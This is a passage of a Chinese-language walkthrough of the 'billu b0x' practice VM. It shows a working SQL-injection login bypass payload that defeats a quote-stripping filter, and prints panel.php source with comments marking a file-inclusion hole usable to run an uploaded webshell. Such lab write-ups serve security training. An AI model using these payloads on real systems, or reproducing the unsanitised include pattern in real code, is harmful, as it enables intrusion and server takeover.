 在这里可以看到，登录时的校验方式，就是单纯的把单引号转换为空，这里可以使用转义来绕过

```sql
select * from auth where  pass='\' and uname=' or 1=1 limit 0,1-- '
```

![image-20221021221810504](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20221021221810504.png)

尝试登录

![image-20221021221926077](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20221021221926077.png)

出现了新的页面，`http://192.168.235.134/panel.php`尝试先下载panel.php的代码

```php
<?php
session_start();
include('c.php');
// 当前目录下，还有一个head2.php的文件
include('head2.php');
// 判断是否登录
if(@$_SESSION['logged']!=true )
{
	header('Location: index.php', true, 302);
	exit();
}
echo "Welcome to billu b0x ";
echo '<form method=post style="margin: 10px 0px 10px 95%;"><input type=submit name=lg value=Logout></form>';
// 判断是否退出登录
if(isset($_POST['lg']))
{
	unset($_SESSION['logged']);
	unset($_SESSION['admin']);
	header('Location: index.php', true, 302);
}
echo '<hr><br>';
echo '<form method=post>
<select name=load>
    <option value="show">Show Users</option>
	<option value="add">Add User</option>
</select> 
&nbsp<input type=submit name=continue value="continue"></form><br><br>';
// 选择模式，post参数中的load为show时显示用户，add时添加用户
// 这说明该目录还有两个文件show.php和add.php
if(isset($_POST['continue']))
{
	$dir=getcwd();
	$choice=str_replace('./','',$_POST['load']);
	if($choice==='add')
	{
		include($dir.'/'.$choice.'.php');
		die();
	}
    if($choice==='show')
	{  
		include($dir.'/'.$choice.'.php');
		die();
	}
	else
	{
        // 这里有文件包含漏洞，可以上传文件马
		include($dir.'/'.$_POST['load']);
	}
	
}
```